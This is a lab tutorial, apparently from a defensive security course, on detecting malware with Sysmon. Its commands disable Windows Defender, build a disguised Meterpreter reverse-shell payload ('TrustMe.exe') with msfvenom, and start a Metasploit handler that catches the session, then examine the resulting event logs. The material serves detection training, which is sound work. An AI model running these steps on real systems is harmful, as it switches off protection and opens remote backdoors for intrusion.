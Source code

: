 
# Sysmon

First, let’s disable Defender. Simply run the following from an Administrator PowerShell prompt:

`Set-MpPreference -DisableRealtimeMonitoring $true`

This will disable Defender for this session.

If you get angry red errors, that is Ok, it means Defender is not running.

Next, let’s start up the ADHD Linux system and set up our malware and C2 listener: 

Let's get started by opening a Terminal as Administrator

![](attachments/Clipboard_2020-06-12-10-36-44.png)

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

![](attachments/Clipboard_2020-06-17-08-32-51.png)

On your Linux system, please run the following command:

$`ifconfig`

![](attachments/Clipboard_2020-06-12-12-35-15.png)

Please note the IP address of your Ethernet adapter.  

Please note that my adaptor is called eth0 and my IP address is 172.26.19.133.   

Your IP Address and adapter name may be different.


Now, run the following commands to start a simple backdoor and backdoor listener: 
 

 `sudo su -`
Please note, the adhd password is adhd.

`msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<YOUR LINUX IP> lport=4444 
-f exe -o /tmp/TrustMe.exe`

`cd /tmp`

`ls -l TrustMe.exe`

`cp ./TrustMe.exe /mnt/c/tools`


Now, let's start the Metasploit Handler.  First, open a new Ubuntu Terminal by clicking the down carrot then selecting Ubuntu-18.04.

Let's become root.

`sudo su -`


root@DESKTOP-I1T2G01:/tmp# `msfconsole -q`

msf5 > `use exploit/multi/handler`

msf5 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`

PAYLOAD => windows/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > `set LHOST 172.26.19.133`

Remember, your IP will be different!

msf5 exploit(multi/handler) > `exploit`


It should look like this:

![](attachments/Clipboard_2020-06-12-12-46-10.png)

Now, we will need to open an cmd.exe terminal as Administrator.


![](attachments/Clipboard_2020-06-12-10-36-44.png)

When you get the pop up select Yes.

Next, to open a Command Prompt Window, select the Down Carrot ![](attachments\Clipboard_2020-06-12-10-38-20.png) and then select Command Prompt.

![](attachments/Clipboard_2020-06-12-10-38-52.png)

Then, type the following:



C:\Windows\system32>`cd \Tools`

C:\Tools>`Sysmon64.exe -accepteula -i sysmonconfig-export.xml`


It should look like this:

![](attachments/Clipboard_2020-06-15-10-43-37.png)


let's run the following commands to run the TrustMe.exe file.

`cd \tools`
 
 `TrustMe.exe`


Back at your Ubuntu prompt, you should have a metasploit session!

![](attachments/Clipboard_2020-06-12-12-55-11.png)


Now, we need to view the Sysmon events for this malware:

You will select Event Viewer > Applications and Services Logs > Windows > Sysmon > Operational

![](attachments/Clipboard_2020-06-15-10-46-31.png)


        …………………………………………………………….

![](attachments/Clipboard_2020-06-15-10-47-01.png)


Start at the top and work down through the logs, you should see your malware executing.  Please note your paths may be different.

![](attachments/Clipboard_2020-07-09-16-04-23.png)

![](attachments/Clipboard_2020-07-09-16-04-40.png)




















